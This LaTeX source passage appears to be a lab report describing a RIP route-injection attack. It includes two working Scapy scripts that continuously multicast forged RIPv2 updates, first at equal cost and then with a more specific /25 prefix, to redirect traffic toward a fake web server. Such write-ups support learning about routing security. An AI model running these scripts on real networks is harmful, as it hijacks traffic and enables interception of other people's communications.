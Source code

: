 \documentclass[12pt]{article}
\begin{document}
The first implementation advertised the same prefix
and metric as the legitimate route, creating an
equal-cost multipath situation.

The second implementation advertised a more specific
prefix (\texttt{/25}), which successfully redirected
traffic due to the longest prefix match rule.

\subsection{First Attempt -- Equal-Cost Route Injection}

\begin{lstlisting}[language=Python]
from scapy.all import *
from scapy.layers.inet import IP, UDP
from scapy.layers.rip import RIP, RIPEntry

# Multicast RIP address
dst_ip = "224.0.0.9"

packet = IP(dst=dst_ip) / UDP(sport=520, dport=520) / \
         RIP(cmd=2, version=2) / \
         RIPEntry(
             addr="10.0.0.0",
             mask="255.255.255.0",
             metric=1
         )

# Send continuously
send(packet, loop=1, inter=2)
\end{lstlisting}

This first attempt created equal-cost routing entries
because the malicious route used the same prefix length
and RIP metric as the legitimate route.

\subsection{Second Attempt -- More Specific Prefix Injection}

\begin{lstlisting}[language=Python]
from scapy.all import *
from scapy.layers.inet import IP, UDP
from scapy.layers.rip import RIP, RIPEntry

# Multicast RIP address
dst_ip = "224.0.0.9"

packet = IP(dst=dst_ip) / UDP(sport=520, dport=520) / \
         RIP(cmd=2, version=2) / \
         RIPEntry(
             addr="10.0.0.0",
             mask="255.255.255.128",
             metric=5
         )

# Send continuously
send(packet, loop=1, inter=2)
\end{lstlisting}

In the second attempt, the attacker advertised
the more specific prefix \texttt{10.0.0.0/25}.

Although the RIP metric was higher,
routers preferred the malicious route because
of the longest prefix match rule,
successfully redirecting traffic towards
the fake Web server.
\end{document}
